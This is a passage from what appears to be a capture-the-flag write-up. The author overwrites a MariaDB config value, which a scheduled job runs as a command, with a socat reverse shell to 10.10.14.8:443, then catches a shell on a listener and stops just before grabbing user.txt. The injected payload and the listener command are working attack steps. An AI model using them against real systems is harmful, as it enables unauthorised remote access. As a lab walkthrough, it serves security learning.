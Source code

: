 Row 86, `checkrelease` looks interesting:

```

/home/guly/checkbase.pl;/home/guly/checkplugins.pl;

```

### Shell

I can’t see those scripts, but it’s seems like a command line that might get run by something. I’ll start another `socat` listener, and I’ll add my own command in:

```

MariaDB [neddy]> update config set option_value = "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.8:443" where id = 86;
Query OK, 1 rows affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0

MariaDB [neddy]> select * from config where id = 86;
+----+--------------+------------------------------------------------------------------------+
| id | option_name  | option_value                                                           |
+----+--------------+------------------------------------------------------------------------+
| 86 | checkrelease | socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.8:443 |
+----+--------------+------------------------------------------------------------------------+
1 row in set (0.00 sec)

```

A minute later I check it again, and it’s been reset:

```

MariaDB [neddy]> select * from config where id = 86;
+----+--------------+-----------------------------------------------------+
| id | option_name  | option_value                                        |
+----+--------------+-----------------------------------------------------+
| 86 | checkrelease | /home/guly/checkbase.pl;/home/guly/checkplugins.pl; |
+----+--------------+-----------------------------------------------------+
1 row in set (0.00 sec)

```

And I have a shell on my listener:

```

root@kali# socat file:`tty`,raw,echo=0 tcp-listen:443,reuseaddr
guly@unattended:~$ id
uid=1000(guly) gid=1000(guly) groups=1000(guly),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),47(grub),108(netdev)

```

From there I can grab `user.txt`:
